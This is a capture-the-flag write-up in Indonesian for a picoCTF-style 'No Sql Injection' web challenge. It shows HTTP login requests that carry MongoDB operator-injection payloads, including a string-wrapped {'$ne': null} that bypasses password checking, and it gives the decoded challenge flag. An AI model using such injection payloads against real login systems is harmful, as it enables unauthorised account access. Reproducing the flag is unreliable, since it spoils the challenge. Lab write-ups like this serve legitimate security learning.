

# Writeup

### 🌐 Web Exploitation

## No SQLI without function

disini gw bakal ngerjain chall `No Sql Injection` dari CyLab Academy. setelah unzip file .tar.gz bakal dapat source codenya.

karena chall ini sepertinya cuma bypass auth, gw bakal pakai payload no sqli yang biasanya. 

tapi sebelum itu gw mau intercept dulu request dan response nya di burpsuite

dari source server.js nya juga ada leak credential

```js
const initialUser = new User({
      firstName: "pico",
      lastName: "player",
      email: "picoplayer355@picoctf.org",
      password: crypto.randomBytes(16).toString("hex").slice(0, 16),
    });
    await initialUser.save();
```

gw bakal pakai email ini dan hanya bypass field passwordnya 

jika gw send dibawah ini bakal mendapatkan response "success": false karena passwordnya salah

```json
POST /login HTTP/1.1
Host: atlas.picoctf.net:49782
    
{
    "email":"picoplayer355@picoctf.org",
    "password":"test"
}
```

selanjutnya gw coba payload no sqli dari `payload all the things`

```json
POST /login HTTP/1.1
Host: atlas.picoctf.net:49782
    
{
    "email":"picoplayer355@picoctf.org",
    "password":{"$ne": null}
}
```
hasilnya akan ditolak
```json
{"success":false,"error":"password.startsWith is not a function"}
```
kalo gw baca lagi source code nya disitu ternyata ada mitigasi yang sesuai dengan error tadi

```bash
    try {
    const user = await User.findOne({
        email:
        email.startsWith("{") && email.endsWith("}")
            ? JSON.parse(email)
            : email,
        password:
        password.startsWith("{") && password.endsWith("}")
            ? JSON.parse(password)
            : password,
    });
```
dari source itu ternyata gw gak bisa menggunakan payload no sqli yang memanfaatkan function untuk bypassnya

karena gak bisa gw bakal bypass langsung dengan ini
```json
POST /login HTTP/1.1
Host: atlas.picoctf.net:49782
    
{
    "email":"picoplayer355@picoctf.org",
    "password":"{\"$ne\": null}"
}
```
dan hasilnya
```json
HTTP/1.1 200 OK
    
{
    "success":true,
    "email":"picoplayer355@picoctf.org",
"token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ==",
    "firstName":"pico",
    "lastName":"player"
}
```



dan yap gw berhasil untuk bypassnya dan ternyata tokennya adalah flag yang dicari


```bash
(base) ┌──(venv)(at4m1㉿LAPTOP-V46LO30E)-[~/cy/docs/picoCTF/w/No-Sql-Injection/app]
└─$ echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzI1YmE0ZGUxfQ==" | base64 -d
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_25ba4de1}
```

## Lesson Learned
- Selalu read source code dan perhatikan flow nya
